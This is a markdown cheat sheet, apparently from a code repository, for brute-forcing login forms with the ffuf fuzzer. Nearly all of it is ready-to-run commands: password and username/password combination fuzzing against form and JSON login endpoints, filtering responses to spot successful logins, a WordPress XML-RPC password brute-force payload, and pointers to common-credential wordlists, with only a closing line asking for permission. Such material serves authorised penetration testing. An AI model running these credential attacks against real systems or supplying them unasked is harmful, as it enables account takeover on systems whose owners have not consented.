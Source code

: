 # 🛠️ FFUF POST Request Brute-Force Cheat Sheet

## 🔍 Tool: [ffuf (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)

---

## 📤 Basic POST Request Fuzzing

```bash
ffuf -u https://target.com/login -X POST -d "username=admin&password=FUZZ" -w /path/to/wordlist.txt -H "Content-Type: application/x-www-form-urlencoded"
```

### 🔎 Explanation

- `-u`: Target URL.
- `-X POST`: Use **POST** method.
- `-d`: POST data, with `FUZZ` as the **injection point**.
- `-w`: Path to your **wordlist**.
- `-H`: Set headers (usually required for form submissions).

---

## 🔁 Fuzzing Multiple Parameters (e.g., username and password)

```bash
ffuf -u https://target.com/login -X POST -d "username=FUZZ&password=FUZ2Z" -w users.txt:FUZZ -w passwords.txt:FUZ2Z -H "Content-Type: application/x-www-form-urlencoded"
```

### 🔎 Explanation

- **Two wordlists** for different fuzzing points: `FUZZ` and `FUZ2Z`.
- Useful for brute-forcing **username-password** combinations.

---

## 🔁 JSON POST Body Fuzzing

```bash
ffuf -u https://target.com/api/login -X POST -d '{"user":"admin", "pass":"FUZZ"}' -H "Content-Type: application/json" -w /path/to/wordlist.txt
```

### 🔎 Explanation

- Use `-H "Content-Type: application/json"` to match API expectations.
- JSON bodies require quotes and proper escaping.

---

## 📥 Match or Filter by Response Code

```bash
ffuf -u https://target.com/login -X POST -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -w /path/to/wordlist.txt -mc 200
```

### 🔎 Explanation

- `-mc 200`: Match **only HTTP 200 responses** (likely successful logins).
- Use `-fc` to **filter out** common responses (e.g., 403, 401).

---

## 🧠 Bonus Tips

- Use `-t 100` to increase threads for faster fuzzing (use with caution).
- Use `-o results.txt` to save output.
- Add `-fs <size>` to filter responses by size if success gives different content length.
- Include cookies or tokens with `-H "Cookie: session=abc123"` if required.

---

## 🛠️ Example Use Case: WordPress XML-RPC Brute-force

```bash
ffuf -X POST -u http://target.com/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>admin</string></value></param><param><value><string>FUZZ</string></value></param></params></methodCall>' -H "Content-Type: text/xml" -w passwords.txt -mc 200
```

---

📚 **Recommended Wordlists**:
- `SecLists`: [`https://github.com/danielmiessler/SecLists`](https://github.com/danielmiessler/SecLists)
  - `SecLists/Passwords/Common-Credentials/10k-most-common.txt`
  - `SecLists/Usernames/top-usernames-shortlist.txt`

---

🧪 Always test with a known working login (if available) to verify response patterns before brute-forcing.

> ⚠️ Use responsibly. Only test systems you have permission to audit.
